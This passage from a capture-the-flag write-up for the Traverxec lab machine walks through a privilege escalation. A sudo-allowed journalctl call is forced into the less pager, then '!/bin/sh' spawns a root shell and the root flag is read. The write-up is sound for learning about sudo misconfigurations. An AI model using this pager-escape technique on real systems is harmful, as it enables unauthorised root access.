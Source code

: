 Next I look at the shell script highlited above. Running the script prints some
of the webserver log, but most importantly does **not** require a password to do
it. Now we look at the code and see why.
```
david@traverxec $ cat /home/david/bin/server-stats.sh
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

As you can see `david` allowed himself to run `journalctl` as `root`. Sadly for
him `journalctl` calls a pager if it's output does not fit inside the terminal.
Thus we make our terminal window tiny, and run the `journalctl` command.
```
david@traverxec $ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```
Now we have `less` running as `root` under our control. Since it has a convenient
`vim`-like command execution feature we just type `!/bin/sh` and we have a `root`
shell. Now we just `cat` the root flag and we are done ;)
```
travrexec # cat /root/root.txt
root_flag_here
```
